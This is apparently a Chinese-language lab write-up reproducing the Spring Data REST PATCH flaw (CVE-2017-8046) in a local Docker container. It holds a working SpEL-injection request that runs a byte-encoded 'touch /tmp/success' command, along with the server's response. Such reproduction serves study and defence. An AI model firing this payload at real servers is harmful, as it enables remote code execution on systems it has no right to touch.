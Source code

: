 # Java框架漏洞 Spring-Data-REST复现 [CVE-2017-8046]

## 漏洞简介

Spring Data REST对PATCH方法处理不当，导致攻击者能够利用JSON数据造成RCE。本质还是因为spring的SPEL解析导致的RCE

## 科普

HTTP-PATCH 

必须指定Content-Type指定为application/json-patch+json

请求数据必须是json数组

## 部署环境

docker pull registry.cn-shanghai.aliyuncs.com/yhskc/spring-data-rest

docker run -d -p 0.0.0.0:80:8080 registry.cn-shanghai.aliyuncs.com/yhskc/spring-data-rest

直接部署在本地,用浏览器打开即可

## 测试

curl -X POST -H "Content-Type: application/json-patch+json" -d '{"forstname":"si","lastname":"li"}' http://127.0.0.1/customers

```json
{
  "firstname" : null,
  "lastname" : "li",
  "gender" : null,
  "address" : null,
  "_links" : {
    "self" : {
      "href" : "http://127.0.0.1/customers/2"
    },
    "customer" : {
      "href" : "http://127.0.0.1/customers/2"
    }
  }
}%
```

随后执行删除

curl -X DELETE -H "Content-Type: application/json-patch+json" http://127.0.0.1/customers/2

查看网页已经被成功删除

## 利用

我们准备在服务器内tmp路径中创建success文件

首先进入容器

docker exec -it 容器编号 /bin/bash

cd /tmp

ls

发现没有success文件

使用BurpSuite本地抓包

```
GET /customers/1 HTTP/1.1
Host: 192.168.0.108
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

修改为
```
PATCH /customers/1 HTTP/1.1
Host: 192.168.0.108
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: security_level=0
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 08 Sep 2020 03:06:31 GMT
If-None-Match: "0"
Cache-Control: max-age=0
Content-Type: application/json-patch+json

[{"op":"replace","path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname","value":"test"}]

```

此时可以获得响应

```json
{
  "cause": {
    "cause": null,
    "message": "EL1010E: Property or field 'lastname' cannot be set on object of type 'java.lang.UNIXProcess' - maybe not public?"
  },
  "message": "Could not read an object of type class example.springdata.rest.headers.Customer from the request!; nested exception is org.springframework.expression.spel.SpelEvaluationException: EL1010E: Property or field 'lastname' cannot be set on object of type 'java.lang.UNIXProcess' - maybe not public?"
}
```

随后进入docker容器中进行查看发现在 /tmp 路径下已经成功创建文件success

至此完成初级漏洞利用

## 最后

20201014 : 暂时封存,最近记忆有点断片
